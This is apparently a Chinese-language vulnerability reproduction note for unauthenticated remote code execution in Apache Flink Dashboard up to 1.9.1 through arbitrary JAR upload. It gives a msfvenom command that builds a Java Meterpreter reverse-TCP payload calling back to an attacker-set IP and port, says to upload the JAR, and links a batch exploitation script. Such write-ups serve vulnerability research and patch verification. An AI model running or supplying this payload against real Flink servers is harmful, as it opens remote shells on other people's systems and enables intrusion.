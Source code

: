 Apache Flink Dashboard 未授权访问-远程代码命令执行
==================================================

一、漏洞简介
------------

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

二、漏洞影响
------------

\<= 1.9.1(最新版本)

三、复现过程
------------

### 1、

    msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar

![](./resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId25.png)

### 2、

上传alewong Jar包

![](./resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId27.png)

![](./resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId28.png)

### 批量脚本

https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec

    Ps:
    当注释掉 if 'Unable to load requested file' in str(data):
    之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权
